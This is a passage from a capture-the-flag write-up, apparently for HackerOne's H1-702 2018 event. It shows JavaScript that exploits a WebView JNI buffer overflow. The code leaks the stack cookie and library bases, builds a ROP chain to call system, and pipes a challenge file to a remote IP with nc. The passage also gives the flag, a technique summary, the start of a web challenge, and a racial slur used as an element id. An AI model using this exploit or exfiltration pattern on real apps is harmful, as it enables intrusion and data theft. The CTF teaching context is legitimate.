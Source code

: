 ```html
    for (var i = 0; i < num; i++) {
        ret += val;
    }
    return ret;
}

function dog(val) {
    return PetHandler.censorMyDogs(val.length, b64enc(val));
}

async function sicedeets(){
    stackLeak = new Uint8Array(JSON.parse(PetHandler.censorMyDogs(0x800,b64enc("AAAAAAAAAAAAAAAA"))))
    var cookie = unpack(0x400, stackLeak);
    var libnativebase = unpack(0x80, stackLeak) - 0x455;
    var libcbase = unpack(0x178, stackLeak) - 0xb2321;
    var system = libcbase + 0x7d360;
    var gadget = libcbase + 0x2af19;
    dog("cat /data/local/tmp/challenge5 | nc 67.205.144.40 13337");
    var rbx = system;
    var r14 = libnativebase + 0x3010;
    var r15 = 0x6969696969696969;
    var ret = gadget;
    cookie = strunpack(0x400, stackLeak);
    cat(pad("A", 0x208) + cookie + p64(rbx) + p64(r14) + p64(r15) + p64(ret));
}
</script>

<body onload="sicedeets();">
    <div id="nigg"></div>
</body>
</html>
```

### Flag

flag{in_uR_w33b_view_4nd_ur_mem}

### TL;DR

Ret address buffer overflow and stack leak in javascript JNI interface. Leak stack cookie, libc, and libnative addresses. Use a ROPgadget to execute arbitrary commands via system.

## Web Challenge

```
Instructions can be found on the web challenge site: http://159.203.178.9/
```

Oof, the prompt lead us to another prompt. Lets visit the link:

```
Notes RPC Capture The Flag
Welcome to HackerOne's H1-702 2018 Capture The Flag event. Somewhere on this server, a service can be found that allows a user to securely stores notes. In one of the notes, a flag is hidden. The goal is to obtain the flag.

Good luck, you might need it.
```
